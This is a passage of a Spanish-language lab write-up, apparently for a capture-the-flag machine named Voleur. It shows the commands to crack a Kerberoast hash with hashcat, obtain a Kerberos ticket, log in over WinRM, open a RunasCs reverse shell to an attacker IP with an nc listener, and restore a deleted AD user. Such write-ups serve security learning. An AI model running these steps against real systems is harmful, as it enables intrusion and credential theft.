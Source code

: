 procedemos con el crackeo

```bash
hashcat -m 13100 -a 0 -w 4 -d 1 kerberoas.hash /usr/share/wordlists/rockyou.txt
```

>>> Nota: en caso de usar hashcat, deben configurar para su situacion, ya que en mi caso hago uso de gpu (-w 4 -d 1) para acelerar el crackeo 

<img width="1600" height="814" alt="image (7)" src="https://github.com/user-attachments/assets/b42057e0-4cea-45c3-a602-f2312db1c775" />

obtenemos las credenciales para el usuario `svc-winrm` asi que nos autenticamos con el servicio `winrm`

```bash
impacket-getTGT voleur.htb/'svc_winrm':'AFire***********afi' # primero generamos el ticket tgt para la autenticacion kerberos winrm
```
```bash
export KRB5CCNAME=svc_winrm.ccache
```
```bash
evil-winrm -i DC.voleur.htb -k -u svc_winrm -r VOLEUR.HTB # nos autenticamos!
```

<img width="1600" height="647" alt="image (8)" src="https://github.com/user-attachments/assets/b4f5b2b4-abd1-4d7c-b333-b2a1a1c4fa76" />

ahora el objetivo sera obtener una shell como el usuario `svc_ldap` ya que como vimos antes, este pertenece al grupo `RESTORE_USERS` y mi objetivo es restaurar el usuario `Todd.Wolfe` y testear la password que se localiza en el archivo `office`

<img width="1917" height="1008" alt="image" src="https://github.com/user-attachments/assets/cd6238e8-fd40-448f-9059-d1b138af1571" />

asi que primero cargamos `RunasCs.exe` a traves de `winrm`

```bash
upload RunasCs.exe
```

<img width="1917" height="336" alt="image" src="https://github.com/user-attachments/assets/f1e381cc-2ff5-41bb-be60-eff67a879c99" />

ahora nos colocamos en escucha en nuestra maquina atacante

```bash
nc -lnvp 9999
```
lanzamos la shell como `svc_ldap`

```bash
./RunasCs.exe svc_ldap M1********Vn powershell -r 10.10.14.152:9999
```
obtenemos la shell como `svc_ldap` y al consultar los usuarios eliminados, vemos nuestro usuario objetivo

<img width="1917" height="962" alt="image" src="https://github.com/user-attachments/assets/cbcff543-fc8d-4024-b2ab-df3677040189" />

asi que intentamos restaurar el usuario

```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and Name -like "*Todd Wolfe*"' -IncludeDeletedObjects | Restore-ADObject
```
